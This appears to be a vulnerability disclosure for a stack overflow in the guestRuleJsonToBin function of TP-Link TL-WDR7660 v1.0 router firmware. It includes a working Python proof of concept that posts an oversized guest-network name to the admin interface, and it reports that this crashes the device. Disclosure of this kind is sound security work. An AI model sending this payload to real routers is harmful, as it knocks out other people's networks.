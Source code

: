 **A stack overflow vulnerability exists in TL-WDR7660 version: TL-WDR7660 ver1.0**
The guestRuleJsonToBin function handles the important parameter string name without checking it. It can lead to stack overflow vulnerabilities.

![image](image/1.png)

**Exploit a vulnerability in the guestRuleJsonToBin function by sending a carefully constructed HTTP request**
```
url = "http://192.168.1.1/stok=B*qqlvYTn(bVsXtuytGm%2B0%5EP3nOE0dF~/ds " #COOKIE需要对应捕获
# 请求头
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# 请求体--漏洞利用json
data = {"guest_network":{"name":"a"*0x100000,"table":"guest_rule_2g","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"name","start_time":"01%3A00","end_time":"02%3A00"}},"method":"add"}# 发送POST请求
response = requests.post(url, headers=headers, json=data)
# 输出响应内容
print(response.text)
```

**The following figure shows the result**

***(1)Before the above code is executed, the guest network runs normally, as shown in the following figure***

![image](image/2.png)

***(2)After executing the above code, modifying the guest network again shows that the request failed.***

![image](image/3.png)

***(3)After the refresh, the guest network module disappears and the system crashes***

![image](image/4.png)
